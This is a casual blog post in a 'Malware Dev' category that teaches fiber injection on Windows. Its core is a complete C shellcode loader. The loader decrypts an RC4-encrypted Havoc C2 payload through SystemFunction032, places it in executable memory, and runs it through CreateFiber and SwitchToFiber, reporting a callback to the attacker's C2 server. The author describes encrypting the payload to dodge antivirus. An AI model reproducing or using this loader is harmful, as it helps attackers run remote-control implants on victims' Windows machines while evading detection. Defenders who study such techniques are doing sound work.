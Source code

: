 +++ 
draft = false
date = 2020-02-11T22:47:27+10:00
title = "Fiber Injection"
description = ""
slug = ""
authors = ["Bugs Bunny"]
tags = []
categories = ["Malware Dev"]
externalLink = ""
series = []
+++

We all know threads — those small, poor workers who execute code for a process. A thread is the smallest unit of execution within a process.

But have you ever heard of something called a fiber?

No, I’m not talking about the dietary stuff you get from fruits and vegetables.

So what on earth am I talking about?

<meme image >

<H1>what is a fiber ?</H1>

So Fibers are a unit of execution same as threads BUT it is manually scheduled by the application here is some facts about them : 

- User-mode only: Fibers are controlled entirely from user mode so they’re invisible to the kernel. That means you, the developer, control when they run.  
- One thread can run many fibers: A single thread can create multiple fibers and switch between them whenever it wants using the WinAPI function SwitchToFiber
- No parallelism unless you do the work: Fibers do not run in parallel on multi-core CPUs unless you explicitly run them on multiple threads.
- Lightweight and efficient: Fibers consume very few system resources. They're much cheaper and lighter than threads when it comes to executing code.

They're no longer widely used nowadays — because who on earth wants to create an application and do all the heavy lifting themselves, like managing code execution, scheduling, creating threads for parallelism, and manually switching between fibers? 

🤓☝️:"Actually, I use fibers when developing applications."

Ok they are rarely used today mr Actually. 




<H1>Fiber injection </H1>

Fiber injection is basically making the fiber execute our shellcode, instead of using threads like the [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) WinAPI.

To start our journey, I’m already one step ahead — my Havoc C2 is up and waiting:

<img src="/images/fiber-injection/havoc-pre.jpg" alt="ARE U BLIND?  NOT MY FAULT THE IMAGE IS NOT LOADING"
     style="border-radius: 0 !important; clip-path: none !important; width: auto; height: auto;">

Note: My shellcode is encrypted with RC4. I used [Hellshell](https://github.com/NUL0x4C/HellShell) to encrypt it for me.

Everything will be done inside the main function — though you could move this into a separate function if you want (I’m just too lazy to bother right now).

First, we need to convert the current thread into a fiber. You can’t create a fiber and switch to it unless the calling thread is already a fiber. That’s why we convert the current thread using [ConvertThreadToFiber](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-convertthreadtofiber).

After that, I’ll allocate memory in the current process to store my shellcode. And since I’m lazy, I’m going to directly set the protection to PAGE_EXECUTE_READWRITE during VirtualAlloc, instead of doing it the “proper” way with [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) and changing the memory protection afterward.

{{< highlight c >}}


	PVOID fiber1 = ConvertThreadToFiber(NULL);

	if (fiber1 == NULL) {
		printf("[-] Failed to convert thread to fiber.\n");
		return 1;
	}

	// allocating memory for the shellcode

	PVOID address = VirtualAlloc(0, sizeof(Rc4CipherText), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);


{{< /highlight >}}

Then we’ll create a new fiber that points to the memory we allocated. So when we switch to it, it’ll start executing the code at that memory address.

Rc4EncryptionViSystemFunc032 is just a function I use to decrypt the Havoc shellcode. After decrypting it, I’ll simply copy the shellcode into the allocated memory.

{{< highlight c >}}

    // creating another fiber
	PVOID fiber2 = CreateFiber(NULL, (LPFIBER_START_ROUTINE)address, NULL);

	if (!fiber2) {
		printf("[-] Failed to create fiber.\n");
		return 1;
	}

	// decrypting the shellcode
	Rc4EncryptionViSystemFunc032(Rc4Key, Rc4CipherText, sizeof(Rc4Key), sizeof(Rc4CipherText));

	// copying the shellcode into the allocated memory 
	memcpy(address, Rc4CipherText, sizeof(Rc4CipherText));


{{< /highlight >}}

Lastly, we’ll just switch to the fiber2 we created. Once you switch to the fiber, it will execute the shellcode.

{{< highlight c >}}

 	// when switching the fiber 2 it will start executing the shellcode that's stored in the allocated memory 
	SwitchToFiber(fiber2);

	return 0;


{{< /highlight >}}


The full code :

{{< highlight c >}}


#include <windows.h>
#include <stdio.h>


// this is what SystemFunction032 function take as a parameter
typedef struct
{
	DWORD	Length;
	DWORD	MaximumLength;
	PVOID	Buffer;

} USTRING;

// defining how does the function look - more on this structure in the api hashing part
typedef NTSTATUS(NTAPI* fnSystemFunction032)(
	struct USTRING* Img,
	struct USTRING* Key
	);

BOOL Rc4EncryptionViSystemFunc032(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {

	// the return of SystemFunction032
	NTSTATUS	STATUS = NULL;

	// making 2 USTRING variables, 1 passed as key and one passed as the block of data to encrypt/decrypt
	USTRING		Key = { .Buffer = pRc4Key, 		.Length = dwRc4KeySize,		.MaximumLength = dwRc4KeySize },
		Img = { .Buffer = pPayloadData, 	.Length = sPayloadSize,		.MaximumLength = sPayloadSize };


	// since SystemFunction032 is exported from Advapi32.dll, we load it Advapi32 into the prcess,
	// and using its return as the hModule parameter in GetProcAddress
	fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");

	// if SystemFunction032 calls failed it will return non zero value
	if ((STATUS = SystemFunction032(&Img, &Key)) != 0x0) {
		printf("[!] SystemFunction032 FAILED With Error : 0x%0.8X\n", STATUS);
		return FALSE;
	}

	return TRUE;
}

// my encrypted shellcode it's huge so i won't fill half the blog showing it 
unsigned char Rc4CipherText[] = {
	0xB0, 0x94, 0xE1, 0x89, 0x90, 0xE0, 0x5B, 0xE7, .....} 

unsigned char Rc4Key[] = {
	0x90, 0x4B, 0x51, 0x4D, 0x24, 0x6A, 0xA4, 0x83, 0x36, 0x5D, 0x96, 0x8F, 0xA4, 0x96, 0x9D, 0xA4 };



   int main() {


	// converts curretn thread to a fiber 

	PVOID fiber1 = ConvertThreadToFiber(NULL);

	if (fiber1 == NULL) {
		printf("[-] Failed to convert thread to fiber.\n");
		return 1;
	}

	// allocating memory for the shellcode

	PVOID address = VirtualAlloc(0, sizeof(Rc4CipherText), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	// creating another fiber 

	PVOID fiber2 = CreateFiber(NULL, (LPFIBER_START_ROUTINE)address, NULL);

	if (!fiber2) {
		printf("[-] Failed to create fiber.\n");
		return 1;
	}

	// decrypting the shellcode
	Rc4EncryptionViSystemFunc032(Rc4Key, Rc4CipherText, sizeof(Rc4Key), sizeof(Rc4CipherText));

	// copying the shellcode into the allocated memory 
	memcpy(address, Rc4CipherText, sizeof(Rc4CipherText));

	// when switching the fiber 2 it will start executing the shellcode that's stored in the allocated memory 
	SwitchToFiber(fiber2);

	return 0;

}


{{< /highlight >}}


After execution, we got a connection back to our Havoc C2:


<img src="/images/fiber-injection/havoc-connect.jpg" alt="ARE U BLIND?  NOT MY FAULT THE IMAGE IS NOT LOADING"
     style="border-radius: 0 !important; clip-path: none !important; width: auto; height: auto;">


Note: Even with RC4 encryption, Windows Defender ruined the moment and detected the shellcode anyway.

<img src="/images/fiber-injection/windef.jpg" alt="ARE U BLIND?  NOT MY FAULT THE IMAGE IS NOT LOADING"
     style="border-radius: 0 !important; clip-path: none !important; width: auto; height: auto;">

<img src="/images/fiber-injection/windef-meme.jpg" alt="ARE U BLIND?  NOT MY FAULT THE IMAGE IS NOT LOADING"
     style="border-radius: 0 !important; clip-path: none !important; width: auto; height: auto;">


Anyway, that’s all folks. I need to go eat instead of writing stuff that gets detected by Windows Defender.

<img src="/images/fiber-injection/ending.jpg" alt="ARE U BLIND? NOT MY FAULT THE IMAGE IS NOT LOADING"
     style="border-radius: 0 !important; clip-path: none !important; width: auto; height: auto;">



References:
- https://devblogs.microsoft.com/oldnewthing/20191011-00/?p=102989
- https://learn.microsoft.com/en-us/windows/win32/procthread/fibers
- https://github.com/Kudaes/Fiber